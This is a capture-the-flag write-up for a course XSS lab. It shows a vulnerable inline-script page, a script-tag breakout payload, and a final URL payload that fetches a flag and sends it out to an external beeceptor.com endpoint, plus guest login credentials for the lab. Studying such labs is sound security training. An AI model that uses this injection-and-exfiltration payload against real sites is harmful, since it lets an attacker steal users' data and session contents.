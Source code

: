 ```yaml
---
title: Simple Web 0x11(Lab - XSS Me)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Fronted"
---
```


# Simple Web 0x11(Lab - XSS Me)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8800/

## Background
:::spoiler
攻擊者沒有直接攻擊受害者，而是把惡意程式植入到受害者會瀏覽的網頁，當受害者瀏覽該網頁時，就會自動執行惡意程式，並把受害主機的一些資料送回給駭客(這是其中一種受害方式，也可能很直接的被盜取`COOKIE`之類的)
![](https://i.imgur.com/lZ0bj41.png)

![](https://i.imgur.com/grJXpr7.png)

![](https://i.imgur.com/q9fwa6z.png)
:::

## Source code
```javascript!
...
<script>
    const message = {"icon": "error", "titleText": "User not found.", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
    window.onload = function () {
        if (message !== null) Swal.fire(message);
    }
</script>
...
```

## Exploit
1. Check XSS
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "youshallnotpass", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ...
    ```
    ![](https://i.imgur.com/OffMAUF.png)
2. Try to inject script tag
Payload: `http://h4ck3r.quest:8800/?type=error&message=%3C/script%3E%3Cscript%3Ealert(123)%3C/script%3E//`
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "</script><script>alert(123)</script>//", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ```
    ![](https://i.imgur.com/1cZJvIv.png)
* Hint
If you login as guest(password = guest), then you can get the response
![](https://i.imgur.com/s2R75Xf.png)

3. Fetch flag and send to [beeceptor](https://beeceptor.com/)
Payload: 
    ```!
    http://h4ck3r.quest:8800/?message=%3C/script%3E%3Cscript%3Efetch(`/getflag\).then(r=%3Er.text()).then(flag=%3Elocation.href=`https://sbk6401.free.beeceptor.com/?f=${flag}`)%3C/script%3E//
    ```

4. Report to admin. Then you got flag!!!